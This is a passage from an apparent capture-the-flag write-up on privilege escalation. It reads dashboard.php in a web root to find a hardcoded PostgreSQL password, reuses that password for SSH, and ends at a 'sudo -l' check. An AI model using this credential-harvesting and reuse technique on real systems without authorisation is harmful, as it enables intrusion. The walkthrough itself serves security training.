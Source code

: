 ## Privilege Escalation
---
Try to find the password in the /var/www/html folder, since the machine uses both PHP & SQL, meaning that there should be credentials in clear text.

Command
```bash
ls -la  
```

Results
```
total 392  
drwxr-xr-x 2 root root 4096 Jul 23 14:00 .  
drwxr-xr-x 3 root root 4096 Jul 23 14:00 ..  
-rw-rw-r-- 1 root root 362847 Feb 3 2020 bg.png  
-rw-r--r-- 1 root root 4723 Feb 3 2020 dashboard.css  
-rw-r--r-- 1 root root 50 Jan 30 2020 dashboard.js  
-rw-r--r-- 1 root root 2313 Feb 4 2020 dashboard.php  
-rw-r--r-- 1 root root 2594 Feb 3 2020 index.php  
-rw-r--r-- 1 root root 1100 Jan 30 2020 license.txt  
-rw-r--r-- 1 root root 3274 Feb 3 2020 style.css
```
 
Search for Passwords in the files. 

Command
```bash
cat dashboard.php
```

Result
```
session_start();  
if($_SESSION['login'] !== "true") {  
header("Location: index.php");  
die();  
}  
try {  
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres  
password=P@s5w0rd!");  
}
```

 ***Finding***
 $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");

SSH username and password

Log in with SSH and check sudo privileges

Command
```bash
sudo -l
```
